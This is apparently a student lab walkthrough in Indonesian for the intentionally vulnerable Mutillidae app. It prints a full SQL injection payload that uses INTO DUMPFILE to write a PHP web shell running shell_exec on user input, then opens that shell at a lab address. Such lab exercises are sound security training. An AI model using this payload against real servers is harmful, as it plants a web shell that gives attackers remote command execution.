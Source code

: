 Lesson 10
--------
- **Step 1**    : Buka mozilla pada Kali lalu buka web mutillidae lalu klik OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info pada mutillidae, lalu ubah size pada kolom **Name** dari **20** menjadi **100** lalu ketik `' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' --` dan jangan lupa tambahkan spasi setelah `--` dan klik view account details
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2010/1.JPG)
- Lalu akan muncul hasilnya
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2010/2.JPG)
- **Step 2**    : Buka tab baru pada mozilla lalu buka `10.151.36.105/mutillidae/execute_command.php` dan ini contoh-contoh untuk perintah di execute command
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2010/3.JPG)
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2010/4.JPG)
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2010/5.JPG)
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2010/6.JPG)
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2010/7.JPG)
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%2010/8.JPG)
